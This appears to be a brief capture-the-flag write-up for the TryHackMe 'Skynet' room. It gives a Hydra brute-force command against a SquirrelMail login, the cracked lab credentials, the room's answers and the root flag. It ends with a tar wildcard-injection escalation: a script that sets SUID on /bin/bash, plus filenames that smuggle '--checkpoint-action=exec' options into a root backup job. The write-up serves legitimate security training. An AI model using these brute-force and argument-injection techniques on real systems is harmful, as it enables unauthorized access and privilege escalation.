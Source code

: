 https://tryhackme.com/room/skynet


######################################
			Cosmin Tibuleac | 05.03.2022
######################################



# Task 1  Deploy and compromise the vulnerable machine!


1.What is Miles password for his emails?


Hydra: 
**hydra -l milesdyson -P loot/log1.txt 10.10.201.0 http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:Unknown user or password incorrect." -t 40**


[80][http-post-form] host: 10.10.201.0   login: milesdyson   password: cyborg007haloterminator

`cyborg007haloterminator`


2.What is the hidden directory?


*We have changed your smb password after system malfunction.
Password: )s{A&2Z=F^n_E.B`*


`/45kra24zxs28v3yd`

3.What is the vulnerability called when you can include a remote file for malicious purposes?

`Remote File Inclusion `


4.What is the root flag?
`3f0372db24753accc7179a282cd6a949`



/home/milesdyson/backups/backup.sh


printf '#!/bin/bash\nchmod  +s /bin/bash' > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" >  --checkpoint=1
